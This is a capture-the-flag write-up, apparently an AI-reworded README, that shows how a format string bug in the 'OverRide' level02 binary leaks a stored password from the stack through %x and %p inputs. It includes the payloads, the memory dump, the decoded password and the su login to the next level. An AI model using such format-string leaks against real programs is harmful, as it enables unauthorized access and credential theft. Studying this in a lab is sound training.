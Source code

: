 Certainly. Here's a more concise version of the README:

# Level02 Exploit

## Steps

### 1. Program Behavior

Run the program to observe its behavior:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```

### 2. Vulnerability Discovery

Identify the format string vulnerability:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: *****************************************
AAAA ffffe4f0 0 78 2a2a2a2a 2a2a2a2a ffffe6e8 f7ff9a08 78 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!
```

### 3. Exploiting the Vulnerability

Leak the password from memory:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %20$p %21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p
--[ Password: 
*****************************************
0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x3225207024303225 does not have access!
```

### 4. Decoding the Password

Convert leaked hex to ASCII, considering little-endian order:

Hex: `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

### 5. Accessing the Next Level

Use the decoded password to access level03:

```bash
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level03@OverRide:~$ 
```